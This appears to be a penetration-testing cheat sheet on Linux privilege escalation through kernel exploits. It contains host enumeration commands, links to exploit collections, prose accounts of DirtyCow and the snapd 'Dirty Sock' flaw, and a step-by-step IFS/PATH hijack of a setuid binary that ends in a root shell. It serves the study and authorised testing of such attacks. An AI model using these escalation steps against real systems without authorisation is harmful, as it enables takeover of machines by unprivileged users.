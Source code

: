 # Kernel Exploits

* Static table to use - https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/

* Use this to lookup vulnerable versions and exploits - https://github.com/SecWiki/linux-kernel-exploits, https://github.com/lucyoa/kernel-exploits

* Exploits can be found here
  - searchsploit - Kali
  - exploit-db
  - https://github.com/lucyoa/kernel-exploits


* By exploiting vulnerabilities in the Linux Kernel we can sometimes escalate our privileges. What we usually need to know to test if a kernel exploit works is the *OS*, *architecture* and *kernel version*.

```
$ uname -a
$ uanme -i
$ cat /etc/*-release
$ cat /proc/version
$ cat /etc/issue
$ lsb_release -a        # (Debian based OSs)
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-
```

* Search for exploits
```
site:exploit-db.com kernel version
python linprivchecker.py extended
```


---

### DirtyCow exploit
* Linux Kernel <= 3.19.0-73.8

* A race condition was found in the way the Linux kernel’s memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system. It was one of the most serious privilege escalation vulnerability ever discovered and it affected almost all the major Linux distros.

* https://www.exploit-db.com/exploits/40839
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
---

## Distribution Specific Privilege Escalation

### Ubuntu vuln in snapd
* https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html
* snapd serves up a REST API attached to a local UNIX_AF socket. Access control to restricted API functions is accomplished by querying the UID associated with any connections made to that socket. User-controlled socket peer data can be affected to overwrite a UID variable during string parsing in a for-loop. This allows any user to access any API function.
* With access to the API, there are multiple methods to obtain root. The exploits linked above demonstrate two possibilities.
---

### IFS Exploit

* The IFS (or Internal Field Separator) is used to separate words/ arguments.

* With an IFS set to ' ' (space) the command "ls -al" has the space between 'ls' and '-al' to separate the command to its argument.

* With an IFS set to ';' (semicolon) the command "ls;-al" will have the same effect as "ls -al", because we have said we wish to use the ';' instead of the space. So it uses a ';' to separate the command from its argument.
```
1) 	$ cat /home/nick/bin
2) 	...#!/bin/bash
3) 	.../bin/sh #this script will execute /bin/sh
4) 	$ ls -al /usr/local/date
5) 	---s--x--x 1 root root 21673 Mar 9 18:36 date
6) 	$ PATH=/home/nick:${PATH}
7) 	$ export PATH
8) 	$ IFS=/
9) 	$ export IFS
10) 	$ /usr/local/date
11) 	# whoami
12) 	root
```
    * Lines 1, 2, 3: the attacker creates a simple bash script that runs /bin/sh when executed.
    * Lines 4 and 5: the attacker checks the permissions for the suid program that calls /bin/date.
    * Lines 6 and 7: adds '/home/nick' to his PATH (where the 'bin' program is he wrote earlier).
    * Lines 8 and 9: He sets the IFS to '/' this means that instead of using a space, the '/' will be used, this
    means that the program instead of calling '/bin/date' will call 'bin date', because he has placed a
    program called 'bin' in the home directory (which is now in the PATH) when /usr/local/date is executed
    it will execute /home/nick/bin with the permissions of /usr/local/date - which means the
    attacker will get a root shell!
    * Lines 11, 12: The attacker runs 'whoami' to verify that he is root, line 12 confirms this.
